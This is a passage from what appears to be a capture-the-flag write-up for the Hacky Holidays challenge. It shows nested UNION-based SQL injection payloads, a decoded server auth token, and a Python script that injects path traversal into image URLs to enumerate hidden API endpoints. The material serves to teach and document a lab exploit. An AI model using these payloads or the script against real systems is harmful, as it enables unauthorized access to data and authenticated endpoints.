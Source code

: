 or

```
UNION ALL SELECT NULL,NULL,( UNION ALL SELECT NULL,NULL,NULL)-- -
```
 These queries are far from anything so I decided to spend sometime with the nested queries and that's when I figured out:
 
```
-8436' UNION SELECT "1' UNION SELECT 'rad.jpg',1,1 -- -",'12',1-- -
```

This payload gives us:

{F1129468}

Now there are 2 images which we already had but one image can't be loaded and if we look at the URL of that image it looks like:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEiLCJhdXRoIjoiY2I4YTJhOGY1ODZhN2NkZjdjNzY4MmMxOTZiMmYyZWQifQ==
```

Decoding the encoded part we can see:

```
{"image":"r3c0n_server_4fdk59\/uploads\/1","auth":"cb8a2a8f586a7cdf7c7682c196b2f2ed"}
```

That means whatever we provided in the `SQLi` payload is some how gets attached to the `images` path. Now @adam had already said this several times on discord that `auth` token can only be generated by the `server` that means we only have to mess with the image path.  

If we take a step back we know there is `/api/` endpoint exists which have the following data:

{F1129467}

But we can't access that API or any endpoint of that API without authentication. So now things starts to get connected we use `sqli` to get injection inside the path with an `auth` token and then we try to access that path. That means we can access any endpoint as authenticated user. But for this to work we'll have to find the valid `/api/` endpoint. Since this wasn't possible using ffuf or anything like that I wrote a small script:

```python
import requests
import re
from bs4 import BeautifulSoup

HOST = "https://hackyholidays.h1ctf.com"
hash_URL = "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-8436' UNION SELECT "1' UNION SELECT 'rad.jpg',1,'../api/{}' -- -",'12',1-- -"

with open("lists/objects-lowercase.txt", "r") as f:
    data = f.read().split("\n")

for endpoint in data:
    r = requests.get(hash_URL.format(endpoint.strip()))
    soup = BeautifulSoup(r.content, "html.parser")
    next_url = soup.findAll("img", {"class": "img-responsive"})
    if next_url:
        new_url = HOST + next_url[-1]["src"]
        nr = requests.get(new_url)
        if nr.content != "Expected HTTP status 200, Received: 404":
            print(endpoint, "--", new_url)
```
